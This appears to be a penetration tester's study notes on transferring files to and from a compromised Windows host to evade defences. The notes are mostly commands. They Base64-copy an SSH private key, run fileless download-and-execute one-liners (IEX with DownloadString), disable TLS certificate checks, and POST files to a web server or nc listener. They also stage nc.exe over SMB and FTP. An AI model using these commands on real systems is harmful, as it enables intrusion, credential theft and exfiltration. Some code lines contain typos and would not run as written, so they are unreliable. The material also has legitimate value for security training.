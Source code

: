```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
Sometimes to bypass defences and detection mechanisms, we need to use various methods (sometimes in-conjunction with one another) to transfer files to/from a target system.

## PowerShell Base64 Encode & Decode
- We can encode a payload as Base64, copy and paste it to the other system (eg. via a terminal), and decode it on the system
- Doesn't require any network communication to transfer the file (only shell connection)
- It is important to check the hash of the payload on both sides to ensure its transferred correctly (eg. MD5)
- *CMD is limited to 8191 characters, so this will not work for larger files*

**Example transferring an SSH key**
1. Check hash of key : `md5sum id_rsa`
2. Encode key : `cat id_rsa | base64; echo`
3. Copy contents to target machine
4. Use PowerShell to decode : `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<b64_string>"))`
5. Confirm hash : `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`

The same Base64 techniques can be used to upload files to a web server
```PowerShell
$b64 = [System.convert]::ToBase64S=tring((Get-Content -Path '<File Path>' -Encoding Byte))
Invoke-WebRequest -Uri '<Webserver Address>' -Method POST -Body $b64
```

We can listen on a port with `nc` to catch the incoming request and the data.
```bash
nc -lvnp 4444
```

## PowerShell Web Downloads
- Most companies allow *HTTP* and *HTTPS* traffic through the firewall.
- Web filtering could still prevent access to certain websites, or block certain file type downloads etc
- The [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over *HTTP* (80), *HTTPS* (443), or *FTP* (21). The methods can be seen below:

| Method                                                                                                                   | Description                                                                                                                |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                    |
```Powershell
# Download a file
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Location>')

# Fileless download (Doesn't write to disk, executes directly from memory using Invoke-Expression [IEX])
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
(New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX

# PowerShell 3.0+ can use Invoke-WebRequest (Alias: iwr, curl, wget)
Invoke-WebRequest '<Target File URL>' -OutFile '<Output File Location>'
# -UseBasicParsing can be used if there are IE engine problems

# If there is issues related to SSL/TLS certs not being trusted
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
[More Examples](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

## PowerShell Web Uploads
- PowerShell has no upload function by default but `Invoke-WebRequest` & `Invoke-RestMethod` can be used to build our upload function.
- We will also need a webserver capable of accepting file uploads.

First, create a webserver that is capable of handling file uploads. `uploadserver` is a python HTTP.server module extension for uploads.
```bash
pip3 install uploadserver

python3 -m uploadserver
```

We can then use a tool like [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-RestMethod` to perform upload operations in PowerShell.
```PowerShell
IEX(New-Obeject Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri 'http://<ip>/upload' -File '<File Path>'
```
## SMB Downloads
SMB works on TCP port 445, and can be used to transfer files to a target system.

First we need to create an SMB server to host our payload (we can use Impacket's `smbserver`)
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

We can then copy the file to our target system
```cmd
copy \\<ip>\share\nc.exe
```
> Sometimes this will be blocked by modern windows systems as guest authentication is disabled. To fix this we can create an SMB server with a username and password.

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

On the target system, mount and then copy the file
```cmd
net use n: \\<ip>\share /user:test test
copy n:\nc.exe
```

## FTP Downloads
Another alternative is to use port 20/21 for FTP file downloads.

We can use `pyftpdlib` (a python ftp server library) to create an FTP server. By default it uses port *2121* so we can change this. It also has anonymous auth enabled by default too.
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

We can then download it via PowerShell on the target
```PowerShell
(New-Object Net.WebClient).DownloadFile('ftp://<IP>/file.txt', '<Output File Location')
```